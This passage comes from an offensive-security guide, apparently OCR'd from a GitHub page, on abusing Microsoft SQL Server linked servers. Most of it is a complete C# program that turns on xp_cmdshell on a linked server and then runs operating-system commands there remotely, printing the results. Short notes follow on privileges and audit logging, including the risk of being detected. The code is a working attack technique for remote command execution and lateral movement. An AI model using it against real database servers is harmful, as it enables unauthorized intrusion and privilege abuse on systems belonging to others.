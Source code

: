 #### 3. **Abuse `xp_cmdshell` on Linked Servers**

If `xp_cmdshell` is enabled on the linked server, you can run OS-level commands remotely.

```csharp
using System;
using System.Data.SqlClient;

class Program
{
    static void Main()
    {
        string connectionString = "Server=your_sql_server_instance;Integrated Security=True;";
        string linkedServer = "LinkedServerName";
        string command = "whoami";

        using (SqlConnection connection = new SqlConnection(connectionString))
        {
            connection.Open();

            // Enable xp_cmdshell if needed
            string enableCmdShellQuery = $"EXEC [{linkedServer}].master.dbo.sp_configure 'xp_cmdshell', 1; RECONFIGURE;";
            using (SqlCommand enableCmdShellCommand = new SqlCommand(enableCmdShellQuery, connection))
            {
                enableCmdShellCommand.ExecuteNonQuery();
            }

            // Run command on linked server
            string query = $"EXEC [{linkedServer}].master.sys.xp_cmdshell '{command}';";
            using (SqlCommand cmdShellCommand = new SqlCommand(query, connection))
            {
                using (SqlDataReader reader = cmdShellCommand.ExecuteReader())
                {
                    while (reader.Read())
                    {
                        Console.WriteLine(reader[0].ToString());
                    }
                }
            }
        }
    }
}
```

### **Important Considerations**

- **Permissions**: The effectiveness of these techniques depends on the permissions of the linked server configuration. If the linked server is configured to use a high-privilege account, you can potentially execute commands with those privileges.
- **Audit Logging**: These activities are likely to be logged in SQL Server’s audit logs. Ensure you have permission to perform these actions or be aware that they might be detected.
- **Security Implications**: Exploiting linked servers can have serious security implications. Ensure that you are authorized to perform these actions.

